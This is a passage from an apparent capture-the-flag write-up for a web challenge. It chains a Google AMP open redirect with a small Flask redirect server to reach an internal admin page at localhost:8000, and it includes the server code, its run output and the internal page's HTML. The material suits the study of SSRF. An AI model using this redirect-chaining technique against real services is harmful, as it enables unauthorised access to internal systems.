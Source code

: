 Nice! It worked!

So, my theory for this weird behavior is maybe **Google AMP open redirect only supports HTTPS scheme**.

Ah ha! Because **the internal web application `localhost:8000` doesn't support HTTPS scheme**, and Google AMP returned HTTP status code "500 INTERNAL SERVER ERROR"!

To solve this, we can **host an HTTPS web application that redirects the server's request to `locahost:8000`**.

Here's a Flask web application that redirects incoming requests to `localhost:8000`:
```python
#!/usr/bin/env python3
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def indexRedirect():
    redirectUrl = 'http://localhost:8000/'
    return redirect(redirectUrl)

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=True)
```

Then run it:

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SURFING)-[2024.08.04|22:40:21(HKT)]
└> python3 app.py           
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.69.96.69:80
[...]
```

Next, send the request again:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TCTF-CTF-2024/images/Pasted%20image%2020240804224240.png)

Nice! We can now reach to the challenge's internal web application at `localhost:8000`, and it respond with this HTML content:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Login</title>
</head>
<body>
    <form action="admin.php" method="get">
        <label for="username">Username:</label>
        <input type="text" id="username" name="admin" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="admin" required>
        <br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```
